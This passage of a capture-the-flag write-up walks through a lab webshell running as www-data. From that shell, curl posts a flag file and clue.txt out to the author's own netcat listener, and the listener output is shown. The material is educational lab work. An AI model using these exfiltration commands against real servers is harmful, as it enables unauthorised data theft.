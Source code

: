I'm firing up `burpsuite` to map the site as I'm going through.

![pr_denied.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1621970956559/f1fSU-FXx.png)

Uhm... We have access "only" to commands tab.

![pr_command_whoami.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1621970973874/pVbRK9nm5.png)

All right! Webshell as `www-data` user.

Let's fire up `netcat` and see if we can [curl](https://ethicalme.hashnode.dev/linpeas) that out (`cat` is disabled via that webshell)

```sh
# Webshell
curl --data-binary @Sup3rS3cretPickl3Ingred.txt 10.XX.XX.XXX:443
```

```sh
# Local
$ nc -lvnp 443                                           

listening on [any] 443 ...
connect to [10.XX.XX.XXX] from (UNKNOWN) [10.10.124.36] 56886
POST / HTTP/1.1
Host: 10.XX.XX.XXX:443
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 17
Content-Type: application/x-www-form-urlencoded

/FIRST FLAG CUT/
```

And also the `clue.txt`:

```sh
# Webshell
curl --data-binary @clue.txt 10.XX.XX.XXX:443
```

```sh
# Local
$ nc -lvnp 443

listening on [any] 443 ...
connect to [10.XX.XX.XXX] from (UNKNOWN) [10.10.124.36] 56894
POST / HTTP/1.1
Host: 10.XX.XX.XXX:443
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

Look around the file system for the other ingredient.
```
